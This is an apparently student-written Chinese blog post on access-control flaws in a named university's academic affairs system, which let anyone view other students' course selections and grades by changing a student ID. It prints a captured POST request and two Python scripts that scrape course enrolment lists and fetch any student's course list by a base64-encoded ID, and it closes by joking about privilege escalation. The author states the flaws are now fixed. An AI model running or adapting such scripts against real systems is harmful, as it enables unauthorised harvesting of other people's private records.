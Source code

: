 ```yaml
---
layout: post
title:  "[漏洞已修复]关于学校教务系统的白给漏洞的综合利用"
date:   2019-06-20
desc: "苟利国家生死以,岂因祸福避趋之"
keywords: none
categories: [Blue-whale,Life]
tags: [web]
icon: icon-html
---
```


众所周知，学校的教务系统没有钓鱼网站结实。

# 关于漏洞的发现

在使用教务系统时无意间按F12键并点击了检索，发现该处的代码中有学号，自然想到修改

修改为别人学号后可以查看别人的选课信息和成绩

显然，本地发送给服务器的查询请求中包含了需要查询的学号信息

至于学号的获取，网页右上角有“在线消息”，此处无需权限即可查看**任意**选课号下对应的选课名单（现在已修复为限制特定权限级别查询）

# 关于编写脚本获取选课名单

在*在线消息*中输入任意选课号进行抓包，POST方法的HTTP请求包如下:

```js
POST /taglib/DataTable.jsp?tableId=3241&type=skbjdm HTTP/1.1
Host: jwgl.ouc.edu.cn
Content-Length: 249
Cache-Control: max-age=0
Origin: http://jwgl.ouc.edu.cn
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://jwgl.ouc.edu.cn/common/popmsg/popmsg.sendOnlineMessage.jsp
Accept-Language: zh-CN,zh;q=0.9
Cookie: LOGIN=; UM_distinctid=; SCREEN_NAME=; JSESSIONID=08DA7D4BDD750E8576F21CD46475F0E1.kingo
Connection: close

hidOption=&hidKey=&userId=&roletype=&jsrdm=&jsrmc=&nj=2019&yhdm=&emptyFlag=0&xm=&xn=2018&xq=2&style=SKBJDM&bmdm=&gradeController=on&nj2=2019&yxbdm=&sel_role=ADM000&xnxq=2018-2&sel_skbjdm=02003040&queryInfo=&_xxbt=&xxbt=&_xxnr=&xxnr=&fjmc=
```

保护个人隐私，相关个人信息未显示

经过试验发现，该请求包中的cookies只有`Jsessionid`有意义，POST的数据中`xnxq`和`sel_skbjdm`对应**学期**和**选课号**，于是编写脚本即可

值得注意的是此处应用了`referer`来（反初级爬虫？），需要在`header`中额外添加

```python
#coding=utf-8
import requests
import re
url = "http://jwgl.ouc.edu.cn/taglib/DataTable.jsp?tableId=3241&type=skbjdm"
data = {
    "xnxq": "2019-0",
    "sel_skbjdm": "02003001"
}
cookie = {
	"JSESSIONID": "08DA7D4BDD750E8576F21CD46475F0E1.kingo"
}
refer = "http://jwgl.ouc.edu.cn/common/popmsg/popmsg.sendOnlineMessage.jsp"
s  = requests.Session()
s.headers.update({'referer': refer})
response = s.post(url, data = data, cookies = cookie)
content = response.text
str1 = re.findall(r"name='yhxh'  align='left' >(.+?)</td>", content)
print str1
```

# 关于按学号获取选课清单

直接检索个人选课信息，抓包发现请求的地址为`http://jwgl.ouc.edu.cn/wsxk/xkjg.ckdgxsxdkchj_data.jsp?params=*****`

后面的一串字符经过**BASE64**解码发现是`xn=2018&xq=2&xh=（学号）`

直接编写GET请求脚本即可

```python
import requests
import base64
import re
url0 = 'http://jwgl.ouc.edu.cn/wsxk/xkjg.ckdgxsxdkchj_data.jsp?params='
name = 'xn=2018&xq=2&xh=（学号）'
url1 = base64.b64encode(name)
url = url0 + url1
s  = requests.Session()
cookie = {
	"JSESSIONID": "08DA7D4BDD750E8576F21CD46475F0E1.kingo"
}
refer = "http://jwgl.ouc.edu.cn/student/xkjg.wdkb.jsp?menucode=JW130416"
s.headers.update({'referer': refer})
r = s.get(url, cookies=cookie)
str0 = r.text
str1 = re.findall(r"name=\"skbjdm\" style=\"display: none\">(.+?)</td>", str0)
str2 = re.findall(r"right;\">(.+?)</td>", str0)
print str1
print str2
```

注：此漏洞已修复，现在修改学号GET选课清单已经失效

# 综合利用

把这两个脚本合在一起即可实现科学选课

但是漏洞修复了

想要再进行科学选课的话……

提权从入门到开除，请

